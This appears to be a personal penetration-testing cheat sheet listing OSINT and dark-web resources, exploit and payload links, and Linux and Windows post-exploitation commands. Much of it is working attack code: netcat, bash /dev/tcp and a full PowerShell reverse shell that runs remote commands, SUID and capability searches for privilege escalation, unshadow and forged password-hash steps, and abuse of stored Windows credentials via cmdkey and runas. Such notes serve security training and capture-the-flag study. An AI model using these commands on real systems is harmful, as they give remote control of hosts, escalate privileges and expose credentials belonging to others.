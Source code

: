 OSINT

SSL/TLS cert validation - http://crt.sh/ - good for identifying subdomains
https://www.netcraft.com/ - OSINT
Sublist3r - python DNS lister
DNS queries: https://dnsdumpster.com/
Public db of everything: https://www.shodan.io/
theHarvester - people searching
censys - search engine of all server and devices ever exposed

Browsers:
- TOR browser
- Freenet
- GNUnet
- I2P
- Retroshare

Deep/dark web search:
- exonera TOR
- tor browser
- 


https://www.exploit-db.com/

https://crackstation.net/

Payloads all the things: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
Reverse shell cheatsheet: https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Sec Lists: https://github.com/danielmiessler/SecLists

nc reverse shell - nc <LOCAL-IP> <PORT> -e /bin/bash

Netscat Shell stabilitisation

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. Ctrl + Z then stty raw -echo; fg

1. sudo apt install rlwrap
2. rlwrap nc -lvnp <port>
3. stty raw -echo; fg

Self signed crt: openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
Merge key and crt into pem: cat shell.key shell.crt > shell.pem
PS reverse shell: powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

cat /etc/passwd | grep home
sudo -l
ipconfig
netstat -a
netstat -au
netstat -at
netstat -lp
netstat -ltp
netstat -s
netstat -tp
netstat -i

find / -perm a=x -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null => Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
    - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
    - https://github.com/mzet-/linux-exploit-suggester
    - https://github.com/diego-treitos/linux-smart-enumeration
    - https://github.com/linted/linuxprivchecker
    - https://github.com/rebootuser/LinEnum

https://gtfobins.github.io/

find / -type f -perm -04000 -ls 2>/dev/null - will list files that have SUID or SGID bits set
find / -writable 2>/dev/null - find writable folders
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

unshadow passwd.txt shadow.txt > passwords.tx
openssl passwd -1 -salt <salt> <password> - generate salted hash for a new password
su <new account> - change account

getcap -r / - list enabled capabilities
/etc/crontab

#sh file content to execute reverse shell without nc
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/6666 0>&1

PS commands history (From CMD) - type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
cmdkey /list - stored credentials
    => runas /savecred /user:<user> cmd.exe - use runas with stored creds

PuTTY proxy details => reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
